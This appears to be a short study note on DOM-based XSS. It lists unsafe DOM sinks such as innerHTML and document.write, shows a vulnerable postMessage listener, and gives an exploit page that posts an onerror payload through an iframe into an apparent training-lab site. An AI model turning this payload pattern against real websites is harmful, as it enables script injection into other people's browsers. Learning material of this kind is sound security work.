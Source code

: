 # DOM-based XSS

## Which sinks can lead to DOM-XSS vulnerabilities?

&#x20;The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```javascript
document.write()
document.writeln()
document.domain
someDOMElement.innerHTML
someDOMElement.outerHTML
someDOMElement.insertAdjacentHTML
someDOMElement.onevent
```

## Example

### DOM-based XSS using web messages

code:

```javascript
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
})
```

exploit:

```markup
<html>
    <head>
        <title>DOM based vulns</title>
    </head>
    <body>
        <script>
            function callback() {
                document.getElementById('target_website').contentWindow.postMessage('<img src=x onerror=print(1)>', '*');
            }
        </script>
        <iframe id="target_website" onload="callback()" src="https://0aaf00bd043af66bc1010090000f00a5.web-security-academy.net/">
        </iframe>
    </body>
</html>
```
